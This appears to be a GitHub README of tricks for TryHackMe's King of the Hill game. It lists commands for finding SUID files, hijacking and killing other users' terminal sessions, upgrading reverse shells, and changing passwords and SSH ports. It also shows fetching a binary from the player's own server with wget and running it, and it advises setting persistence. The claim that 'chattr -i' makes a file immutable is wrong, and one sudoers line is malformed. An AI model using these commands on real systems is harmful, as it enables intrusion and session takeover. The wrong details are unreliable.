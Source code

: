 # Koth TryHackMe - Tricks

## Examples

## looking for root permissions

* you can use find to search for permissions with root

```
find / -type f \( -perm -4000 -o -perm -2000 \) -print
```


## using chattr

* you can use this to make the file immutable and therefore keep your name in this file.

```
chattr -i /root/king.txt
```

## fixing the vulnerability in /etc/sudoers, for example

```
# User privilege specification
root ALL=(ALL=ALL) ALL
teste ALL=(root) SETENV:NOPASSWD: /usr/bin/git *, /usr/bin/chattr
test1 ALL=(root) NOPASSWD: /bin/su test1, /usr/bin/chattr
```

* here you can see that user teste and teste1 has root permission on the git and su binary, to fix this just remove everything from the teste and teste1 there

```
root ALL=(ALL=ALL) ALL
```

* and it will be like that, so there will be no way to climb privilege by su and git

## using find

* you can use find to look for flags

```
find / -name flag.txt 2>/dev/null
find / -name user.txt 2>/dev/null
find / -name .flag 2>/dev/null
find / -name flag 2>/dev/null
find / -name root.txt 2>/dev/null
```
## full tty shell

* tweaking your shell, if you get a reverse shell and you ctrl + c and your shell closes/stops, this will help you and you can edit, give ctrl + c at will

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
export TERM=xterm
Ctrl + z
stty raw -echo;fg
```

## breaking into the shell of users logged into SSH (NOT RECOMMENDED,DO THIS ONLY IN PRIVATE ROOMS WITH YOUR FRIENDS FOR FUN)

* you can use the following command to break into the shell of other logged in users

```
script -f /dev/pts/1
```

* for you to know which pts (pseudo slave terminal) the user is connected, just use the following command in the terminal: w , then just see which pts the user is and use the command

## how to see who is logged into the system

* you can use the following commands to see who is logged into ssh/system

```
w
who
ps aux | grep pts
```

## killing session of a user logged into ssh/system

* to kill someone's session just use the following command

```
pkill -9 -t pts/1
```

* as explained in some examples above, just put the pts of the user you want to remove from the machine

## changing ssh user password

* to change a user's password just use the following command

```
passwd [UserName]
```

* you can change ssh keys

# Changing the ssh port (NOT RECOMMENDED, IF YOU DO THIS DO IT WITH YOUR FRIENDS IN PRIVATE ROOMS BECAUSE IT MAY RESULT IN PUNISHMENT, IT'S AGAINST THE RULES!)

## Example

> nano /etc/ssh/sshd_config

```
Include /etc/ssh/sshd_config.d/*.conf

#Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key
```
* by default the SSH port is port 22, but you can change this port for example

```
Include /etc/ssh/sshd_config.d/*.conf

Port 55999
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key
```

> service sshd restart

* and ready after restarting the SSH service the SSH port will be at 55999

# Nyancat

## Preparing the Nyancat

> git clone https://github.com/klange/nyancat

> cd nyancat/src

> make

## Sending Nyancat to machine

> python -m SimpleHTTPServer 80 # on your local machine

> wget http://yourip/nyancat # on the KOTH machine

> chmod +x nyancat

> ./nyancat > /dev/pts/# < here where is the # you will place the enemy PTS where I explained it here in this koth tryhackme tricks.


## defending box

* Look for common ways to fix a box, for example: changing ssh keys, changing passwords, look for running processes or even in cronjobs

* Always set your persistence so that even if someone kicks you out, you have multiple ways to get back.

* So start fixing things in the box. Fix security issues, not legitimate services. For example, disabling ssh is NOT allowed unless it is an intentionally broken ssh installation.


## Some useful links

[for privilege escalation](https://gtfobins.github.io/).

[this will help you with reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[this will help you with ciphers, hashes, etc.](https://gchq.github.io/CyberChef/)

## Note 

Don't do anything wrong on the koth machines, please respect all the rules for everyone to have a great experience and a great game

https://docs.tryhackme.com/docs/koth/king-of-the-hill

## more content here soon!
